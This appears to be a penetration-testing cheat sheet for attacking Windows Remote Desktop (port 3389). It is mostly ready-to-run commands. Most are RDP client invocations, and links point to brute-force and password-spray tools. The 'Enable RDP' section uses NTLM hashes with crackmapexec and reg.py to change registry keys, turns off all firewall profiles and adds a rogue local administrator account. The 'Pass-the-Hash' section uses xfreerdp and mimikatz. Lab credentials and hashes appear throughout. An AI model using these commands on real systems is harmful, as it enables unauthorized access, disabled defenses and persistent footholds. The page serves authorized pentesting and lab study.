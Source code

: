 # 3389 - RDP

You can log onto the machine using **xFreeRDP** / **rdesktop / remmina**.&#x20;

{% code overflow="wrap" fullWidth="true" %}
```bash
# /d:$DOMAIN is optional, +clipboard to redirect the clipboard (allow copy/paste)
xfreerdp /u:USERNAME /p:PASSWORD /cert:ignore /v:IP_ADDRESS /w:2600 /h:1400
xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:IP_ADDRESS /u:USERNAME /p:PASSWORD /size:1180x708
xfreerdp /cert:ignore /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
xfreerdp /cert:ignore /v:IP /u:USERNAME /pth:NTLM_HASH
xfreerdp /cert-ignore /compression /auto-reconnect /u:USERNAME /p:PASSWORD /v:IP_ADDRESS
# /drive:LOCAL_DIRECTORY,SHARE_NAME -- creates a shared drive btw attack and target
# /drive:.,share #to share the current directory in a share called share
# share can be accessed by typing \\tsclient\

rdesktop -u user -p password321 10.10.0.0
sudo rdesktop -u USERNAME -p PASSWORD -g 90% -r disk:local="/home/kali/Desktop/" IP-ADDRESS
rdesktop -u USERNAME -p PASSWORD -a 16 -P -z -b -g 1280x860 IP_ADDRESS
rdesktop -z -P -x m -u USERNAME -p PASSWORD
```
{% endcode %}

## xfreerdp wrapper

[https://gist.github.com/cipherw0lf/ff4edf5376594072679caa5fff3fd1db](https://gist.github.com/cipherw0lf/ff4edf5376594072679caa5fff3fd1db)

## Bruteforce

[https://github.com/Hypnoze57/RDPChecker/](https://github.com/Hypnoze57/RDPChecker/)

[https://github.com/xFreed0m/RDPassSpray](https://github.com/xFreed0m/RDPassSpray)

## Enable RDP

<pre class="language-sh" data-overflow="wrap" data-full-width="true"><code class="lang-sh"># Before Pass the Hash we need to enable two reg keys that are usually disable for security
cme smb 10.0.2.0/24 -u Administrator -p 'P@$$w0rd!' -M RDP -o action=enable
<strong>
</strong><strong># ALTERNATIVE1
</strong>reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'
# Once finished delete the registry key
reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin'
# Alternative 2
crackmapexec smb 172.16.1.1 -u Administrator -H 3542d79d5d17bc9f2914d4d56b5e3050 --local-auth -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
# Another option
netsh advfirewall set allprofiles state off
net user /add Pentester "Pentest123$"
net localgroup Administrators Pentester /add
net localgroup "Remote Desktop Users" Pentester /add
</code></pre>

## ERROR: \[ERROR]\[com.freerdp.core] - transport\_connect\_tls:freerdp\_set\_last\_error\_ex ERRCONNECT\_TLS\_CONNECT\_FAILED \[0x00020008]

{% code overflow="wrap" fullWidth="true" %}
```
Its on an older windows version which uses a SHA1 for certs. Add /tls-seclevel:0 to your xfreerdp command and it will work. For anyone else this is on the Dealing with End of Life Systems under Windows Server.

xfreerdp /cert:ignore /v:172.16.2.102 /u:joe +clipboard /dynamic-resolution /drive:/remmina-share,share /tls-seclevel:0
# With remmina
Go to Advanced > TLS Security Level > 0
```
{% endcode %}

## ERROR: CredSSP: Initialize failed, errors

[https://github.com/rdesktop/rdesktop/issues/28](https://github.com/rdesktop/rdesktop/issues/28)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Using%20credentials.md#rdp-remote-desktop-protocol](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Using%20credentials.md#rdp-remote-desktop-protocol)

I've had some success in some situation by connecting to my Kali box with ssh and doing a reverse port forward, then using mstsc on my windows host to access the target rdp. the Microsoft RDP sometimes works a bit better than rdesktop or xfreerdp.

Another option -> turn this off on the Windows host

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

## Pass-the-Hash

{% code overflow="wrap" fullWidth="true" %}
```sh
# Linux.
xfreerdp /u:'<DOMAIN | WORKGROUP>\<USERNAME>' /pth:<HASH> /v:<HOSTNAME | IP>
# Pass the hash, another port
/pth:HASH /port:40000

# Windows.
# The Remote Desktop Connection (mstsc.exe) client will display the currently logged user information but the network connection will be established using the identity specified to mimikatz's sekurlsa::pth.
sekurlsa::pth /domain:<. | DOMAIN_FQDN> /user:<USERNAME> /ntlm:<NT_HASH> /run:"mstsc.exe /restrictedadmin"
```
{% endcode %}

## Solve some errors with display %

{% code overflow="wrap" fullWidth="true" %}
```bash
proxychains rdesktop -u $USER -P $PASS $HOST -g 94%
xfreerdp /cert-ignore /bpp:8 /compression -themes -wallpaper /auto-reconnect /h:1000 /w:1600 /v:192.168.xx.xx /u:offsec /p:lab
xfreerdp /cert-ignore /bpp:8 /compression -themes -wallpaper /auto-reconnect /h:800 /w:1600 /v:[IP] /u:[username] /p:[Password]

# Ok cool can you quickly confirm the RDP port open just grabbing some commands you can try as alternative 
sudo rdesktop -u USER_HERE -p PASS_HERE -g 90% -r disk:local="/home/kali/Desktop/" 192.168.242.149
# or 
xfreerdp /cert-ignore /compression /auto-reconnect /u:USER-HERE /p:PASS-HERE /v:192.168.242.149
# Change the user / pass to the creds given to you for both commands
```
{% endcode %}

## remmina

```bash
https://ubunlog.com/remmina-remote-desktop-client-instalaciones/
# USE REMMINA WITH SUDO IN CASE IT FAILS
remmina

Connect to other hosts/non-default ports > RDP IP:PORT or hostname.com:65000
```

## Proxychains

{% code overflow="wrap" %}
```bash
# write the option without password parameter (to enter the password hiddenly)
└─$ proxychains rdesktop -u alex 10.5.5.20 -p "Ndawc*nRoqkC+haZ" -d sandbox -a 16 -r clipboard:PRIMARYCLIPBOARD
```
{% endcode %}
